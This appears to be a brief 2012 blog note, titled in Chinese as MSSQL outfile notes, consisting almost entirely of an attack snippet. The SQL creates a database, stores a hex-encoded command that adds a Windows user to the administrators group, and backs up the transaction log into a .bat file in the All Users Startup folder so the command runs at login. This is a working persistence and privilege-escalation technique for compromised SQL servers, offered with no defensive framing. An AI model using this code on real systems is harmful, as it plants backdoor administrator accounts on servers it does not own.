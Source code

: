 title: "mssql outfile笔记"
date: 2012-06-13 15:14:08
tags:
id: 43
comment: false
---

[code lang="c"]
net user fuck fuck /add &amp; net localgroup administrators fuck /add
CREATE DATABASE fuck
alter database [fuck] set recovery full
create table xcmd(a image)
insert into [xcmd] ([a]) values (0x6E65742075736572206675636B206675636B202F6164642026206E6574206C6F63616C67726F75702061646D696E6973747261746F7273206675636B202F616464)
backup log [fuck] to disk=’C:Documents and SettingsAll Users「开始」菜单程序启动1.bat’
[/code]